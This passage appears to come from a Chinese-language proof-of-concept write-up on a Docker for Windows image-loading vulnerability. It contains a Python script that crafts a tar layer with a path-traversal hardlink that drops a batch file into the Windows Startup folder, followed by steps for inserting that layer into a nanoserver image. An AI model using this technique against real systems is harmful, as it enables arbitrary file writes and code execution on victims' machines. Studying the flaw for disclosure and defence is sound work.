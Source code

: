 ```shell
  python3 -c '
import sys
import time
import tarfile
import tempfile
import struct

startupfile = \
  "ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/evil.bat"

with tempfile.NamedTemporaryFile() as script, \
     tarfile.open(sys.argv[1], "w", format=tarfile.PAX_FORMAT) as tar:
  # Generate new digest every time
  script.write("echo Hello World {}\r\npause\r\n".format(time.time()).encode("ascii"))
  script.flush()

  tar.add(script.name, arcname="Files/script.bat")

  # Hardlink for startup script
  info = tarfile.TarInfo("Files\\../../../../../../../../" + startupfile)
  info.type = tarfile.LNKTYPE
  info.linkname = "Files\\script.bat"
  tar.addfile(info)
' ./evil.tar

  cat < ./demo.tar > ./layer.tar
  tar --concatenate --absolute-names -f ./layer.tar ./evil.tar
}

write_layer
```

执行脚本后可得到 `layer.tar`，该文件为需要添加的 layer。



接着进行恶意文件层的构造，在前面解压的 `nanoserver` 镜像目录中进行如下操作：

* 新建目录，使用 `123456` 的 `SHA256` 作为目录名，也就是 `8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92`
* 将上方导出的 `layer.tar` 复制到新建的目录中
* 将 `3128d665ad88b5e4d2111974265579b4b0fc70bfe10da79c27fc984f31098431` 目录中的 `json` 与 `VERSION` 复制到新建的目录中
* 修改新目录中的 `json` 文件的 `id` 字段为 `8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92`，修改 `parent` 字段为 `3128d665ad88b5e4d2111974265579b4b0fc70bfe10da79c27fc984f31098431`

经过上面这几步，存放恶意文件的层就构造好了，目录结构如下：
